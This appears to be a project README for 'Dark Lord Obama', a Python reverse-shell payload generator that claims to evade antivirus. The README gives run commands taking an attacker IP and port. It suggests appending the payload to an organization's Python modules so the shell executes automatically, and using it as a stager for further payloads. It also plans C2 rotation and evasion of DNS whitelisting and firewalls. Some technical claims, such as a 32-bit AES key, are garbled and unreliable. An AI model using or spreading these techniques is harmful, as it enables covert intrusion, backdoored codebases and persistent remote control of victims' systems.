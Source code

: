 ![](https://xringarchery.files.wordpress.com/2019/07/obama-sith-lord.jpg)

# Dark Lord Obama - Undetectable Pythonic Payload Generator

Chang Tan Lister
Lister Unlimited Cybersecurity Solutions, LLC.
changtan@listerunlimited.com

![](https://xringarchery.files.wordpress.com/2019/07/a_undetectable_payload1.png)

DLO generates a Pythonic reverse shell that as of July 29th, 2019, is undetectable on VirusTotal. It combines multiple won't-to-be-disclosed techniques (undiscloseable in detail) including but not limited to:

1. "Command Segmentation"
2. "AES Encryption" with a 32-bit key and a 16-bit initialization vector
3. Base64 Encoding - It was a necessity
4. Inline Python exec() functions, C asm() functions (will be added soon), Java/Jython, Cython, Ctypes

# Dark Lord Obama Official Release Demo

*Please click this link for a demostration video of how to use*

<a href=https://encryptedarchives2.s3-us-west-1.amazonaws.com/darklordobamarelease.mp4>Demo Video</a>

Currently you can, after you gain a foothold in organization

1. Run the payload standalone.
2. Replace the proof-of-concept code with a Metasploit python payload
3. Locate the Python code repositories of a organization during a pentest and then copy-paste the entire code and append it to the bottom of the python module, guarantee auto-execution of the reverse shell when the code runs
4. Use the payload as a stager to download additional payloads
5. Use the payload against MacOS (MacBooks, iMacs, etc). They natively run Python 2.7.1

Run it as ```python darklordobama.py <attacker IP> <attacker listening port>```

![](https://xringarchery.files.wordpress.com/2019/07/a_undetectable_payload2.png)

# Current usage

![](https://xringarchery.files.wordpress.com/2019/07/a_undetectable_payload5.png)

Currently it only works on targets that run Python. A cross-compilable and transpilable edition is in the works after DEFCON and after I pass the OSCP.

`python darklordobama-generator.py <LHOST> <LPORT>`

# Incoming features

1. Cross-compilation - Ideal targeted platforms, Android, iOS, MacOS (already possible with py2app), ARM/MIPS based routers and IoT devices
2. C2 Server - Encrypts a whole TLS 1.3 certificate within the payload, and attempts to negotiate a TLS session with the Command-and-Control Server (the payload does not have the key or IV, the server sends a CHALLENGE string containing it for the payload to decrypt the TLS cert), if a IP or host fails to provide the correct TLS certificate (handshake), the C2 Server immediately issues a permaban rule on IPTables (DROP packets)
3. "Steroid Injections" - Re-writable sections of memory occupied by the payload using statically defined functions, built in reverse-SSH tunnels, and SocketServer. Instantly grant your payload new abilities without having to re-touch the disk (it modifies a function that is holding a 5,000 byte buffer of \x90 NOP instructions and then lets you CALL it)
4. Dynamic DNS Support - With built-in dns resolver to ensure that you always use public DNS (1.1.1.1 or 8.8.8.8) to evade corporate DNS whitelisting
5. C2_Rotate Function - Using Ansible, Tensorflow, and Python, automate the spinning up of brand new Command-and-Control Servers, and immediately push a mass-update on all current bots to "rotate" to the new VPS. Requires Dynamic DNS subscription.
6. Built-in SSH client - Allow your payloads to create reverse SSH tunnels to tunnel out of restrictive firewalls (like a home NATed router)
7. ASM Interpreter - Run x86 Assembly Instructions or launch object .o files
